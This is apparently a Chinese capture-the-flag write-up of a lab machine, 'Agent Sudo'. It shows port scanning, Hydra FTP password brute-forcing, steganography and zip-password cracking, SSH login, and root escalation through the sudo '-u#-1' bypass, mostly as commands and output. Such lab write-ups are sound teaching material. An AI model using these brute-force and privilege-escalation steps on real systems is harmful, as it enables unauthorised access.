





## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 5000 -p- 10.10.152.0
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 20:01 EST
Nmap scan report for 10.10.152.0
Host is up (0.35s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 48.90 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p 21,22,80 10.10.152.0 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 20:03 EST
Nmap scan report for 10.10.152.0
Host is up (0.37s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Linux 3.18 (93%), Linux 3.2 - 4.9 (93%), Linux 3.8 - 4.14 (93%), Linux 4.4 - 4.9 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.10 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --scipt=vuln -p 21,22,80 10.10.152.0 
nmap: unrecognized option '--scipt=vuln'
See the output of nmap -h for a summary of options.
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --script=vuln -p 21,22,80 10.10.152.0 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 20:05 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.152.0
Host is up (0.41s latency).

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 103.61 seconds
                                                                 
```


## web信息收集
查看httpweb页面

提示将ua头换成字母代表用户

得到c的php目录信息

得知c的用户名和密码
尝试ftp登录

## hydra ftp爆破

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.152.0 ftp
[sudo] kali 的密码：
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-03 20:27:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.152.0:21/
[STATUS] 220.00 tries/min, 220 tries in 00:01h, 14344179 to do in 1086:41h, 16 active
[21][ftp] host: 10.10.152.0   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-03 20:28:36
```
得到用户名密码chris/crystal

## ftp登录

```bash
└─$ sudo ftp 10.10.152.0                                                   
Connected to 10.10.152.0.
220 (vsFTPd 3.0.3)
Name (10.10.152.0:kali): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> binary
200 Switching to Binary mode.
ftp> prompt
Interactive mode off.
ftp> ls
229 Entering Extended Passive Mode (|||31060|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||55495|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |**********************************************************************************************************************************************|   217      743.55 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.61 KiB/s)
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||50010|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |**********************************************************************************************************************************************| 33143       13.90 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:02 (11.90 KiB/s)
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||6661|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |**********************************************************************************************************************************************| 34842       35.45 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:01 (23.64 KiB/s)
ftp> 
```

txt文件提示有隐写

## 隐写+zip爆破密码

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ binwalk cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
发现存在zip隐写在图片中
sudo binwalk --run-as=root -e cutie.png
分离出一个zip文件

```bash
┌──(kali㉿kali)-[~/workspace/_cutie.png.extracted]
└─$ sudo zip2john 8702.zip > hash.txt
Created directory: /root/.john
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/_cutie.png.extracted]
└─$ ls
365  365.zlib  8702.zip  hash.txt
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/_cutie.png.extracted]
└─$ cat hash.txt           
8702.zip/To_agentR.txt:$zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e649f827e5964ce575c5f7a239c48fb992c8ea8cbffe51d03755e0ca861a5a3dcbabfa618784b85075f0ef476c6da8261805bd0a4309db38835ad32613e3dc5d7e87c0f91c0b5e64e*4969f382486cb6767ae6*$/zip2$:To_agentR.txt:8702.zip:8702.zip
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/_cutie.png.extracted]
└─$ john hash.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:01 DONE 2/3 (2024-03-03 21:06) 0.7352g/s 32679p/s 32679c/s 32679C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
使用zip2john将zip文件转为可以使用john爆破的格式
爆破得到密码alien

解密压缩包得到如上信息
base64解密
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ echo 'QXJlYTUx' |base64 -d
Area51      
```
得到一个密码
此时steghide图片隐写解密
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo steghide extract -sf cute-alien.jpg
Enter passphrase: 
wrote extracted data to "message.txt".
```
得到message.txt
```
┌──(kali㉿kali)-[~/workspace]
└─$ cat message.txt  
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
得到ssh用户名密码james/hackerrules!

## 第一个立足点 ssh

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo ssh james@10.10.152.0
james@10.10.152.0's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Mar  4 02:39:42 UTC 2024

  System load:  0.0               Processes:           98
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 17%               IP address for eth0: 10.10.152.0
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
得到sudo -l信息
这里直接用`sudo -u#-1 /bin/bash`就能提权
-1是一个不存在的用户 就会被变成root用户
```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:~#
```